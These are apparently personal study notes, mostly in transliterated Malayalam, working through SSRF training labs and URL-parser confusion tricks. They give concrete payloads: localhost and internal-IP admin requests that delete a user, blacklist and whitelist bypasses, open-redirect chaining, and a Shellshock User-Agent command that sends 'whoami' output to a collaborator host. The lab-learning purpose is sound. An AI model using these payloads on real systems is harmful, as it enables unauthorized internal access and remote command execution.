 ### Server-side request forgery 
--> SSRF is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location. 
-->In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure

       Lab-1(Basic SSRF against the local server)
-->This lab has a stock check feature which fetches data from an internal system
-->ivide namal site il /admin enn adichal namuk kanam -  Admin interface only available if logged in as an administrator, or if requested from loopback.athayath ee loopback ennath nerwork il ninu mathram keruna sambavamanen thonunu
-->so ini nammal oru product edukuka enit check stock adich ethengilum product inte stock ethra und enn nokuka
-->ini ee check chythathinte request repeater il viduka
-->athil nokiyal kanam stockapi= enna parameter upayogich ethra stock und enn check chyunath
-->so namuk ivide vech admin aayi keran patumon nokanam.so stockapi= inte value maati http://localhost/admin enn koduth send chyumbol namuk admin aayi keran patunund
-->stockApi=http://localhost/admin/delete?username=carlos enn kodukuka apol carlos enna user delete aakum.lab kazhinju

      Lab-2(Basic SSRF against another back-end system)
-->ividem namal ee stock check feature aan exploit chyunath
-->ivide namal internal ip range (192.168.0.X) of admin interface enumerate chyunu on port 8080
-->ee ip thane engane specific aayi kiti enal.lab open chyuka enit ethengilum oru product inte stock check chyuka
-->enit athinte request repeater il kondpoi iduka.avide stockapi=enna kanum athile value ctrl+shift+u adichal decode aakum apol kanam ip
-->so ee ip:8080 mathram aayi send chyuka apol response il missing parameter enn kana
-->==ee lab kond udheshikunath enthenal.oru application server il thane verem back end systems undakum.angane user umayi valiya bandhamonum ilatha matoru back end system the exploit chyan patumonan nokunath==
-->so ivide ee kitiya ip-192.168.0.1 range il vere ethengilum application/back-end run chyunundon ennan nokunath
-->athin ip le avasanathe .1 mati 2,3,... angen nokanam.athin namal burp intruder use chyunu
-->so ee request intruder ilek akuka enit ip ulla bhakam il last .1 $add$ kodukuka enit payload numbers edukuka - from:1,to:255,step:1 kodukuka.start attack
-->ipol result il nokiyal kanam ithil oru ip il matetho application run chynynd enn
-->so ath repeater il viduka enit stockapi=http://192.168.0.213:8080/ enn send chyuka apol not found enn kanum
-->so /admin enn cherkuka apol 200 OK status kanam.angane admin page access chyan patunund
-->ee kitiya response il carlos enn search chyuka apol kanma carlos username um athinte koode carlos user delete chyanula path um so aa path angane thane stockapi= il koduth send adichal aa user account delete aayikolum

     Lab-3(SSRF with blacklist-based input filter)
-->ividem nama stock check chyunu.enit aa request repeater il aakunu
-->enit stockapi=http://localhost enn kodukumbol external stock check blocked enn kanikunu
-->so stockapi=http://127.1 enn kodukumbol 200 OK kitunu
-->so stockapi=http://127.0.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65 enn kodukunu (ith admin ennath double url encode chythathan.a enn letter mathram double encode chythalum mathi ivide)
-->ingane chyumbol /admin interface kitunu.ini ithinte koode /delete?username=carlos enn aaki send chythal carlos user account delete aakum


#### orange speech
-->URL COMPONENTS(defined in RFC 3986) 
          example->foo://example.com:8042/over/there?name=bar#nose
           foo                              ->scheme
		   example.com:8042   ->authority
		   /over/there/               ->path
		   name=bar                  ->query
		   nose                           ->fragment

-->ivide foo ennath namal http,https mathram varumbol sradhichal mathi
-->ivide namuk main aayi nokendath scheme,authority and path aan
-->ABUSING THE URL PARSER:
    example->http://127.0.0.1:11211:80
	namukariyal colon aan hostum portum thammil verthirikunath.RFC url management correct aayi chyathathkondanen thonunu pala language ilum parse chyuna reethi vyathyasam und enn thonunu.ivide php readfile and perl LWP port 11211 parse chyumbol php parse_url and perl uri port 80 parse chyunu angane problems undakunu.matoru example nokam
	-->http://google.com#@evil.com/
	       ivide php parse-url google.com parse chyumbol php readfile evil.com parse chyunu.ivide evil.com enna domain aan sherikum parse chyapedunath
-->RFC3968 prakaram authority part varunath // radn slashin sheshaman(ie,http://). and is terminated by another slash /,question mark ? or the hash sign
-->CURL il different aayitan parse/fetch chyunath.example:
           ->http://foo@evil.com:80@google.com/
		   ivide most parser(node.js,php,perl,ruby,go...) recognise google.com as the valid host but CURL mathram evil.com:80 aan valid host aayi kanunath
-->NOTE:oro language inum athintethaya url parser und. ee # symbol use chyumbol ath symbolise chyunath enthenal oru bookmark or referernce pole aayitan.athayath aa page enthengilum oru elementine refernce chyunathpole.ok
-->so ithupole stockapi=il url oke kandal , http://username@stock.weliketoshop.net enn adich nokuka.apol stock.weliketoshop.net parse chyunathin pakaram username aayirikam parse chyunath.username in shasham # ittukoodi try chyanam ok.# ittit prathyakich onum kanikunilengi url econde double encode oke chyth try chyanam.username enn thane kodukanamenila pakaram localhost or localhost:80 ennoke itt kodukam.ie http://localhost#stock.weliketoshop.net 


    Lab-4(SSRF with whitelist-based input filter)
-->ivide whitelist chyth vechathan nammal exploit chyendath
-->nerthe pole thane ethengilum product inte stock check chyuka.enit aa request repeater il iduka
-->ivide stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1  enn kanam.ithil lastethe oke clear chyth stockApi=http://stock.weliketoshop.net:8080 aaki send chyth nokuka
-->ini // in shesham enthengilum koduth oru @ symbol itt send chyth nokuka ie stockApi=http://username@stock.weliketoshop.net:8080.athinu shesham oru # symbol usernamein sheshamayi it try chyth nokuka ie stockApi=http://username#@stock.weliketoshop.net:8080. ithine patti mukalil njan vivarichitund
-->ini ee # symbol double url encode chyuka enit /admin enn last aayi kodukuka.enit username ennath matti real aayi ulla enthengilum host kodukuka ie localhost.ingane chyumbol stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin enn kitum.ini send adichal namuk admin page kitum.so ini satharana pole carlos inte account delete chyuka.ok aayi

    lab-5(SSRF with filter bypass via open redirection vulnerability)
-->ivide namal nerthe pole stock check chyunu 
-->ivide stockapi=/product/stock/check?productId=1&storeId=1 ennan kanan sathikunath.athayath ivide url ila verum path mathrame ulloo.ath mathramalla ingane ullathkond thane vere host names namuk kodukanum patila.karanam path mathrame accept chyu
-->ini aa same page il next product enna oru button und athinte request um repeater il viduka.ith &path=http..  ena parameter und ith https://google.com ennadikumbol IDOR work aakunund
-->so namal aa full path angane eduth ee stockapi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos add chynu.enit IDOR ulla path parameter il nerethe oru labil chythapole correct ip range kandupidichathinu shesham aa ip koduth portum koduth /admin page ilek keran patunu.angane avasanam carlos enna account delete chyan patunu

    Lab-6( Blind SSRF with out-of-band detection)
-->ivide namal referer: header il aa blind ssrf test chyunath
-->so ethengilum product edukuk.athinte /GET request repeateril iduka
-->collborator client edukuk enit ath copy chyth referer:http://clientid kodukuka enit send adikuka
-->eni collaborator il poi poll now adikumbol kanam onnu rand DNS HTTP oke ping aayi kidakunath

    Lab-7(Blind SSRF with Shellshock exploitation)
-->ivide namal lab open chyunu enit oru product button click chyth aa page ilek pokunu
-->burp il poi aa request repeater il idunu enit athile referer header ile link maatunu
-->OR collaborator everywhere enna extension install chyuka enit namal test chyuna site scope il add chyuka enit namma satharana pole site ile oro link,button okke click chyumbol automatic aayi ee extension fuzz chytholum.angane ariyan patum referer header il blind ssrf und enn ok
-->server ee referer header analyse chythitan user eth site il ninan ee request ilek vanath enn check chyunath.so nammal ath maati namude oast server link kodukumbol ariyan patum server ee domain ilek pokunundo,aa server ping chyunundon okke
-->so Referer: https://ygies8ahi73ab9u8d15mjh0lnct2hr.burpcollaborator.net koduth send adich client il poi poll now button click chyumbol kanam athl rand DNS,HTTP request poitund enn
-->ini namal ithil shell shock enna vulnerability test chyunu.ith pande ulla vulnerability aan but internal service il ith patch chythitundavanam ennila.useragent: header il specific aaya oru string (  () { :; };  ) koduthit athinu shesham namuk venda command chyuna oru vulnerabilityan ith
-->so ==useragent: header il - useragent:() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN== kodukuka enit ini enth venamenal namuk internal nertwork scan chyanam
-->athin namal referer header il kodutha collaborator client remove chythit ip range kodukunu ie ->192.168.0.1:8080 (==referer:http://192.168.0.1:8080 ==) .ivide ee ip kodutathenthenal ipe router il namuk default aayi kituna ip aan ith so ee ip range il ethengilum internal services undengil athil ninum namuk result il onum kitila karanam ith blind aanalo but namal control chyuna oast(collaborator client) ith ping aayikolum angane namal adicha command(athayath enth command venelum kodukam.ivide /usr/bin/nslookup aan namal use chyuna command ) aa server il kanikum.ok ath marakaruth
-->REMEMBER - veruthe useragent il shellshock command koduth collaborator client um koodi koduthal aavila internal ip koodi kandethanam
-->so referer: il https://192.168.0.$1$:$port$ ith randum koduth bruteforce chyuka. satharan 8080 or 80 oke aan port undavuka. so 8080 koduth payload type numbers kodukuka 1:256:1 kodukuka start attack kodukuka enit client il poi poll now koduthal aa command work aakunath kanam athayath ivide $(whoami) enna command aan koduthath useragent: il so peter-vkzeiw enna kanikunu.aayi



            
                      